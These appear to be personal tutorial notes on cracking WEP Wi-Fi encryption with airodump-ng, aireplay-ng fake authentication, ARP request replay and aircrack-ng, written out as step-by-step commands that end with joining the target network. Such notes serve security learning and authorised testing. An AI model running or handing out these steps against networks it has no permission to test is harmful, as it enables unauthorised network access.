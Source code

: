 # WEP Cracking Basics

1. Requirements:
    1. Capture a large number of packets/IVs - using airodump-ng to capture the data
    2. Analyse the captured IVs and crack the key - using aircrack-ng to analyze this data and break the key

2. Basic in practice(for buzy network which can get enought data)
    ```
    # 1. Find the one is using WEP at ENC column
    airodump-ng [interface name] (--band abg)

    # 2. use airodump-ng on this network only
    airodump-ng --bssid [bssid] --channel [channel] --write basic_wep (-D) [interface name]
    # the number under the Data column is the number of useful packets that contain a different IV that we can use in order to crack the key.
    # Collect the data in the folder called basic_wep
    # we assume for now, the number is increasing fast, if it's not, it will be solved underneath

    # 3. Go to another terminal: ls
    aircrack-ng basic_wep.cap

    # 4. We will see the Key Found and we need to remove the ':' between numbers, which is the key of that network. We can join that network normally using the key
    ```

3. Associate with the network
    1. Problem: APs only communicate with connected clients
    2. Solution: Associate with the AP before launching the attack; In default, the access points ignore any requests they get unless the device has connected to this network or associated with it; We're doing is literally just telling the target network look that I want to communicate with you.
    ```
    # 1. use airodump-ng on the target network
    airodump-ng --bssid [bssid] --channel [channel] --write arpreplay (-D) [interface name]
    # collect the data into a folder called arpreplay
    
    # 2. Split another terminal 
    aireplay-ng --fakeauth 0 -a [bssid] -h [interface bssid] [interface name]
    # 1) Putting 0 because I only want to do this once
    # 2) bssid is the MAC Address of the target
    # 3) -h is to specify the MAC address of my interface
    # 4) to get the interface id, we need to aplit another terminal window and the first 12 digits of the unspec field is the bssid(MAC Address of the interface) replace the minus with colons
    # 5) After running the command, we can see from the airodump-ng terminal, the AUTH shows OPN and the STATION contains the MAC Address I'm using
    # 6) Still don't connecting to the network, we just associated with it
    ```

4. Force generate new IVs
    1. ARP request replay: By repeating this process, we will be forcing the router to continuously generate new packets with new IVs
        1. Wait for an ARP packet
        2. Capture it, and replay it(retransmit it)
        3. This causes the AP to produce another packet with a new IV
        4. Keep doing this till we have enough IVs to crack the key
        5. Then we just need to use aircrack-ng same as before
    2. In practice
    ```
    # 1. Associate with the target network with the process in 3
    airodump-ng --bssid [bssid] --channel [channel] --write arpreplay (-D) [interface name]
    # Split the terminal
    aireplay-ng --fakeauth 0 -a [bssid] -h [interface bssid] [interface name]

    # 2. Conduct an ARP Attack similar as above(Similar to the fakeauth attack)(Split the terminal)
    aireplay-ng --arpreplay -b [bssid] -h [interface bssid] [interface name]
    # just wait until an arp packet exists

    # 3. Crack it
    aircrack-ng arpreplay.cap
    # can check the name of the foler by using ls command
    ```
    
